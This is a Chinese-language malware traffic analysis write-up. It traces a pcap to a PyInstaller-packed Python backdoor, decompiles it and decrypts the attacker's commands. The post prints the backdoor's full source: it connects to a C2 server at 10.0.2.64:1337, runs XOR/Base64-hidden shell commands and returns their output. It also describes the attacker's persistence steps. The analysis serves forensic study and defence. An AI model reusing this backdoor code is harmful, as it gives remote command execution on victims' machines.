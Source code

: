 ```yaml
---
title: '恶意软件流量分析：基于 Python 的后门与 XOR-Base64 C2 通信'
description: '详细分析使用 XOR 加密和 Base64 编码执行命令的 Python 编译恶意软件，包括网络流量剖析和有效载荷逆向工程'
date: 2025-02-27
tags: ['Malware-analysis', 'Reverse-engineering', 'Network-forensics', 'Python-security', 'xor-encryption', 'base64-encoding','threat-hunting', 'C2-communication']
image: './assets/image-20250227160346860.png'
authors: ['0xd00']
---
```


## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析

![导入pcap文件](./assets/image-20250227144525368.png)

## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`

![发现特殊路径](./assets/image-20250227150835278.png)

### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析

![导出HTTP对象](./assets/image-20250227151245629.png)

![查看追踪数据流](./assets/image-20250227151956920.png)

## 逆向工程

### 文件预处理

因为格式看起来可能是`base64`编码，所以尝试进行解码

```bash
cat base64_client | base64 -d > client
binwalk client
```

![解码并判断文件类型](./assets/image-20250227152159783.png)

可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```

![通过objdump获取更多信息](./assets/image-20250227153006517.png)

`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包

尝试运行也可以证明

![尝试运行](./assets/image-20250227153305684.png)

### pyinstaller逆向


```bash
python pyinstxtractor.py ./client
```

![使用pyinstxtractor反编译](./assets/image-20250227153728901.png)

使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割

![在数据流中查找分割字符串](./assets/image-20250227155757779.png)

## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片

![CyberChef解码数据1](./assets/image-20250227160244152.png)

![CyberChef解码数据2](./assets/image-20250227160319723.png)

![CyberChef解码数据3](./assets/image-20250227160346860.png)

### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列
![查看解密出的命令](./assets/image-20250227162330454.png)


攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
